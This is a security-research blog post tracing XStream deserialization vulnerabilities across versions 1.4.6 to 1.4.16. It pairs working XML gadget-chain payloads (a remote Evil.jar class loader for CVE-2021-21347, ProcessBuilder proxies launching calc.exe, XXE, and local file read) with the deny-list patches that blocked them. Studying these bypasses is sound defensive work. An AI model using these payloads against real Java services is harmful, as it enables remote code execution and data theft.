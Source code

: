 ```yaml
---
layout: post
title: LIFECYCLE of XSTREAM
categories: [Research]
tags: [XSTREAM,JAVA]
description: Something about XSTREAM lib
---
```


### Brief intro

* Is:

XStream is a simple library to serialize objects to XML and back again.

* Ref:

[1] [XSTREAM](http://x-stream.github.io/index.html)

[2] [Standard way to serialize and deserialize Objects with XStream](http://blog.sodhanalibrary.com/2013/12/standard-way-to-serialize-and.html#.YKHnwagzb4Y)

[3] [xstream-remote-code-execution-exploit](http://diniscruz.blogspot.com/2013/12/xstream-remote-code-execution-exploit.html)

[4] [XStream deserialization vulnerability research](https://www.programmersought.com/article/55115038764/)

* Self Question:

```
- What is the proxy?
- How can build payload invoke method dynamic?
```

### Read & Practice

* Life cycle:

[Workaround of XSTREAM from version 1.4.6 to higher 1.4.16](http://x-stream.github.io/security.html#workaround)

* Payload:

<u>*CVE-2021-21347*</u>

{% highlight java %}
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='javafx.collections.ObservableList$1'/>
    </default>
    <int>3</int>
    <com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data>
      <dataHandler>
        <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
          <contentType>text/plain</contentType>
          <is class='java.io.SequenceInputStream'>
            <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
              <iterator class='com.sun.tools.javac.processing.JavacProcessingEnvironment$NameProcessIterator'>
                <names class='java.util.AbstractList$Itr'>
                  <cursor>0</cursor>
                  <lastRet>-1</lastRet>
                  <expectedModCount>0</expectedModCount>
                  <outer-class class='java.util.Arrays$ArrayList'>
                    <a class='string-array'>
                      <string>Evil</string>
                    </a>
                  </outer-class>
                </names>
                <processorCL class='java.net.URLClassLoader'>
                  <ucp class='sun.misc.URLClassPath'>
                    <urls serialization='custom'>
                      <unserializable-parents/>
                      <vector>
                        <default>
                          <capacityIncrement>0</capacityIncrement>
                          <elementCount>1</elementCount>
                          <elementData>
                            <url>http://127.0.0.1:80/Evil.jar</url>
                          </elementData>
                        </default>
                      </vector>
                    </urls>
                    <path>
                      <url>http://127.0.0.1:80/Evil.jar</url>
                    </path>
                    <loaders/>
                    <lmap/>
                  </ucp>
                  <package2certs class='concurrent-hash-map'/>
                  <classes/>
                  <defaultDomain>
                    <classloader class='java.net.URLClassLoader' reference='../..'/>
                    <principals/>
                    <hasAllPerm>false</hasAllPerm>
                    <staticPermissions>false</staticPermissions>
                    <key>
                      <outer-class reference='../..'/>
                    </key>
                  </defaultDomain>
                  <initialized>true</initialized>
                  <pdcache/>
                </processorCL>
              </iterator>
              <type>KEYS</type>
            </e>
            <in class='java.io.ByteArrayInputStream'>
              <buf></buf>
              <pos>-2147483648</pos>
              <mark>0</mark>
              <count>0</count>
            </in>
          </is>
          <consumed>false</consumed>
        </dataSource>
        <transferFlavors/>
      </dataHandler>
      <dataLen>0</dataLen>
    </com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data>
    <com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data reference='../com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'/>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
{% endhighlight %}



### Code to rebuild

pom.xml

{% highlight java %}
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>groupId</groupId>
    <artifactId>learn-XSTream</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
    </properties>
    <dependencies>
        <dependency>
            <groupId>com.thoughtworks.xstream</groupId>
            <artifactId>xstream</artifactId>
            <version>1.4.5</version>
        </dependency>
    </dependencies>
</project>
{% endhighlight %}

buildPoC.java

{% highlight java %}
import java.io.IOException;

public class buildPoC {
    public static void main(String[] args) throws IOException
    {
        String process = "calc.exe";
        String payload = "<sorted-set>" +
                "<string>foo</string>" +
                "<dynamic-proxy>" +
                "<interface>java.lang.Comparable</interface>" +
                "<handler class=\"java.beans.EventHandler\">" +
                "    <target class=\"java.lang.ProcessBuilder\">" +
                "         <command>" +
                "             <string>" + process + "</string>" +
                "        </command>" +
                "    </target>" +
                "    <action>start</action>" +
                "</handler>" +
                "</dynamic-proxy>" +
                "</sorted-set>";

        XMLGenerator.generateTOfromXML(payload);

        System.out.println("Will not get here");
    }
}
{% endhighlight %}

### History

#### 1.4.6

> In version, Users can register an own converter for dynamic proxies like  *java.beans.EventHandler* type or  *java.lang.ProcessBuilder* type lead to execute code

* Payload:

{% highlight java %}
<contact class='dynamic-proxy'>
  <interface>java.lang.Comparable</interface>
  <handler class='java.beans.EventHandler'>
    <target class='java.lang.ProcessBuilder'>
      <command>
        <string>calc.exe</string>
      </command>
    </target>
    <action>start</action>
  </handler>
</contact>
{% endhighlight %}

* Patch:

*Using blacklist:* `type != null && (type == java.beans.EventHandler || type == java.lang.ProcessBuilder || Proxy.isProxy(type)`

#### 1.4.8

> Library parsing of XML is default can called to DTD internal or extenal. The feature prevent XXE turn off.

* Payload:

{% highlight java %}
               "<?xml version=\"1.0\"?>\n" +
                "<!DOCTYPE foo [  \n" +
                "<!ELEMENT foo ANY>\n" +
                "<!ENTITY xxe SYSTEM \"http://127.0.0.1:1231\">]><foo>&xxe;</foo>";
{% endhighlight %}

* Patch:

> Set feature `disallow-doctype-decl` to `true` avoid called to entity. If in payload, exists tag `DOCTYPE`, Exception occur with error DOCTYPE is disallowed.

\com\thoughtworks\xstream\io\xml\DomDriver.class#116

{% highlight java %}
 Method method = DocumentBuilderFactory.class.getMethod("setFeature", String.class, Boolean.TYPE);
 method.invoke(factory, "http://apache.org/xml/features/disallow-doctype-decl", Boolean.TRUE);
{% endhighlight %}

#### 1.4.9

#### 1.4.13

* Payload:

{% highlight java %}
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
            <flags>0</flags>
            <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
                <dataHandler>
                    <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
                        <contentType>text/plain</contentType>
                        <is class='java.io.SequenceInputStream'>
                            <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                                <iterator class='javax.imageio.spi.FilterIterator'>
                                    <iter class='java.util.ArrayList$Itr'>
                                        <cursor>0</cursor>
                                        <lastRet>-1</lastRet>
                                        <expectedModCount>1</expectedModCount>
                                        <outer-class>
                                            <java.lang.ProcessBuilder>
                                                <command>
                                                    <string>calc.exe</string>
                                                </command>
                                            </java.lang.ProcessBuilder>
                                        </outer-class>
                                    </iter>
                                    <filter class='javax.imageio.ImageIO$ContainsFilter'>
                                        <method>
                                            <class>java.lang.ProcessBuilder</class>
                                            <name>start</name>
                                            <parameter-types/>
                                        </method>
                                        <name>start</name>
                                    </filter>
                                    <next/>
                                </iterator>
                                <type>KEYS</type>
                            </e>
                            <in class='java.io.ByteArrayInputStream'>
                                <buf></buf>
                                <pos>0</pos>
                                <mark>0</mark>
                                <count>0</count>
                            </in>
                        </is>
                        <consumed>false</consumed>
                    </dataSource>
                    <transferFlavors/>
                </dataHandler>
                <dataLen>0</dataLen>
            </value>
        </jdk.nashorn.internal.objects.NativeString>
        <string>test</string>
    </entry>
</map>
{% endhighlight %}

* patch

\com\thoughtworks\xstream\security\NoPermission.class

{% highlight java %}
    public boolean allows(Class type) {
        if (this.permission != null && !this.permission.allows(type)) {
            return false;
        } else {
            throw new ForbiddenClassException(type);
        }
    }
{% endhighlight %}

Classes that execute code directly have been restricted. Indirect attack vectors such as RMI, LDAP protocol classes are implemented.

Adding blacklist:

```
DenyType:
0 = "java.beans.EventHandler"
1 = "java.lang.ProcessBuilder"
2 = "javax.imageio.ImageIO$ContainsFilter"
DenyRegex:
"javax\\.crypto\\..*
.*\\$LazyIterator
```

#### 1.4.14

* Payload:

{% highlight java %}
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
            <flags>0</flags>
            <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
                <dataHandler>
                    <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
                        <contentType>text/plain</contentType>
                        <is class='com.sun.xml.internal.ws.util.ReadAllStream$FileStream'>
                            <tempFile>F:\Research\java\XSTream\learn-XSTream\src\main\java\XSTreamm\PoC\flag.txt</tempFile>
                        </is>
                    </dataSource>
                    <transferFlavors/>
                </dataHandler>
                <dataLen>0</dataLen>
            </value>
        </jdk.nashorn.internal.objects.NativeString>
        <string>test</string>
    </entry>
</map>
{% endhighlight %}

* Patch

Adding DenyRegex & denyType:

```
jdk.nashorn.internal.objects.NativeString
.*\.ReadAllStream\$FileStream
```

#### 1.4.15

* Patch

```
xstream.denyTypes(new String[]{ "sun.awt.datatransfer.DataTransferer$IndexOrderComparator", "sun.swing.SwingLazyValue", "com.sun.corba.se.impl.activation.ServerTableEntry", "com.sun.tools.javac.processing.JavacProcessingEnvironment$NameProcessIterator" });
xstream.denyTypesByRegExp(new String[]{ ".*\\$ServiceNameIterator", "javafx\\.collections\\.ObservableList\\$.*", ".*\\.bcel\\..*\\.util\\.ClassLoader" });
xstream.denyTypeHierarchy(java.io.InputStream.class );
xstream.denyTypeHierarchy(java.nio.channels.Channel.class );
xstream.denyTypeHierarchy(javax.activation.DataSource.class );
xstream.denyTypeHierarchy(javax.sql.rowset.BaseRowSet.class );
```

#### 1.4.16

* Patch

````
Regex:
0 = {Pattern@1496} ".*\$LazyIterator"
1 = {Pattern@1497} ".*\$GetterSetterReflection"
2 = {Pattern@1498} ".*\$PrivilegedGetter"
3 = {Pattern@1499} "javax\.crypto\..*"
4 = {Pattern@1500} ".*\$ServiceNameIterator"
5 = {Pattern@1501} "javafx\.collections\.ObservableList\$.*"
6 = {Pattern@1502} ".*\.bcel\..*\.util\.ClassLoader"
Type:
0 = "jdk.nashorn.internal.objects.NativeString"
1 = "java.beans.EventHandler"
2 = "sun.swing.SwingLazyValue"
3 = "com.sun.corba.se.impl.activation.ServerTableEntry"
4 = "java.lang.ProcessBuilder"
5 = "sun.awt.datatransfer.DataTransferer$IndexOrderComparator"
6 = "com.sun.tools.javac.processing.JavacProcessingEnvironment$NameProcessIterator"
7 = "javax.imageio.ImageIO$ContainsFilter"
````



### Ans

**<u>*1. What is the proxy?*</u>**

Follow the article [proxies in java static and dynamic](https://medium.com/@shohraafaque/proxies-in-java-static-dynamic-8ccc51d16346) to understand more about proxy. I can summary a bit:

> Provide proxy for Object to manage access into it.

- Include 2 type:
  + Dynamic proxy : Exist in JVM runtime,
  + Static proxy : Proxies that are written manually,exist in compile time.